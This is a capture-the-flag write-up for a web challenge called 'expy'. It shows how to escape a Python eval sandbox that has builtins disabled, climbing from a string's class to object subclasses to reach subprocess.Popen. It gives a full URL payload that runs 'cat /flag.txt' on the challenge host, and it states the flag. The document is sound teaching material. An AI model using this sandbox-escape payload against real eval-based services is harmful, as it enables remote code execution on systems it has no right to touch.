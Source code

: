 # expy
![](https://img.shields.io/badge/category-web-blue)
![](https://img.shields.io/badge/points-300-orange)

## Description
Quick and simple.

The flag is in `/flag.txt`.

[expy.py](https://ctf.mcpt.ca/media/problem/dKa3CixJkhhCZU3RmoaBIze9GcQZ74Uja9uGg7RRkVc/expy.py)

## Solution
We can see that sending an `eval` parameter to the page causes it to evaluate our input. However, all the Python builtins are disabled!

That's not a problem, because of Python's sketchy inheritance system. Every class stores a list of all classes it inherits, and all classes that inherit it. While builtin classes are disabled, there is one class that they can't disable: string.

```py
"bob".__class__             => <class 'str'>
"bob".__class__.__mro__     => (<class 'str'>, <class 'object'>)
```

Now since everything inherits object, we can get a list of all object subclasses.
```py
"bob".__class__.__mro__[1].__subclasses__()   => returns a whole list of objects that inherit object
```

Now, we can find some useful function, like subprocess.Popen to give us remote code execution.

```py
"bob".__class__.__mro__[1].__subclasses__()[224]   => <class 'subprocess.Popen'>
```

```
http://7e44b50.0x16.ink/?eval=%27bob%27.__class__.__mro__%5B1%5D.__subclasses__%28%29[224](%22cat%20/flag.txt%22,%20shell=True,%20stdout=-1).communicate() 

http://7e44b50.0x16.ink/?eval='bob'.__class__                   <== get the string class
                                   .__mro__[1]                  <== get the object class
                                   .__subclasses__()[224]       <== find the subprocess.Popen
                                   ("cat /flag.txt", shell=True, stdout=-1).communicate()
```

Note that the 224 offset may be different depending on the environment. It must be the index that corresponds to Popen.


Flag: `CTF{eval_is_never_safe_ever}`
